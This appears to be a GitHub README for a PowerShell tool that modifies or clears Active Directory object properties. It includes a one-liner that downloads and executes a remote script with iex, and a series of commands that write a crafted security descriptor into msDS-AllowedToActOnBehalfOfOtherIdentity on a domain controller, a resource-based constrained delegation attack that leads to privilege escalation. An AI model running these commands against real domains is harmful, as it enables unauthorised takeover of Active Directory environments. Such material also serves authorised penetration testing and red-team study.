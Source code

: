 # Set-DomainObject
Modify or clear a property for a specified active directory object - Necessary rights required

### Usage
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Set-DomainObject/main/Set-DomainObject.ps1')
```
```
Set-DomainObject -Identity Senna -Set @{'mail' = "something@test.com"}
```
```
Set-DomainObject -Identity Senna -Clear @('mail')
```
![image](https://github.com/Leo4j/Set-DomainObject/assets/61951374/9385a6f7-446b-4c1a-9b1e-5f74e2b6f004)


# RBCD (Resource Based Constrained Delegation)
The content of msDS-AllowedToActOnBehalfOfOtherIdentity must be in raw binary format.
```
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
```
```
$rsdb = New-Object byte[] ($rsd.BinaryLength)
```
```
$rsd.GetBinaryForm($rsdb, 0)
```
```
Set-DomainObject -Identity DC01$ -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb}
```
